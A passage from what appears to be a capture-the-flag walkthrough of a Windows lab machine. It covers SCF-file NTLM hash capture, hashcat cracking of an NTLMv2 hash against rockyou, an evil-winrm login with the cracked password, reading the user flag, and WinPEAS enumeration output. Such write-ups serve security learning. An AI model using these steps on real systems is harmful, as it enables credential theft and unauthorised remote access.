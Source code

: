
When the user will browse the share a connection will established automatically from his system to the UNC path that is contained inside the SCF file. 
Windows will try to authenticate to that share with the username and the password of the user

#----cracking hash------#
Save the hash into txt file hashNTLM.txt

hashcat -m 5600 hashNTLM.txt /usr/share/wordlists/rockyou.txt --force  we will use `5600` for `NTLMv2`

TONY::DRIVER:5516d866b64ca220:c581f403958d002f6b0baa60e1326cb1:0101000000000000fd14e69f4ceed7012f27684bbbfbda7d00000000020000000000000000000000:liltony

Great! "tony:liltony"

#_____Evil-WinRM_______#

`evil-winrm  -i 10.10.11.106 -u tony -p 'liltony'` First it didn't work then i reset the machine and later it worked well.

Now we are connected 

*Evil-WinRM* PS C:\Users\tony> cd Desktop
*Evil-WinRM* PS C:\Users\tony\Desktop> dir


    Directory: C:\Users\tony\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---       12/10/2021  10:58 PM             34 user.txt


*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
131a68852882898e573cc6f67ddced4b

#______privilege escalation_______#
using WinPeas.exe 


Enumerating IPv4 connections
 
Protocol   Local Address         Local Port    Remote Address        Remote Port     State             Process ID      Process Name
 
TCP        0.0.0.0               80            0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               135           0.0.0.0               0               Listening         712             svchost
TCP        0.0.0.0               445           0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               5985          0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               47001         0.0.0.0               0               Listening         4               System
TCP        0.0.0.0               49408         0.0.0.0               0               Listening         448             wininit
TCP        0.0.0.0               49409         0.0.0.0               0               Listening         868             svchost
TCP        0.0.0.0               49410         0.0.0.0               0               Listening         1188            spoolsv
TCP        0.0.0.0               49411         0.0.0.0               0               Listening         816             svchost
TCP        0.0.0.0               49412         0.0.0.0               0               Listening         568             services
TCP        0.0.0.0               49413         0.0.0.0               0               Listening         576             lsass
TCP        10.10.11.106          139           0.0.0.0               0               Listening         4               System
TCP        10.10.11.106          5985          10.10.14.7            47132           Time Wait         0               Idle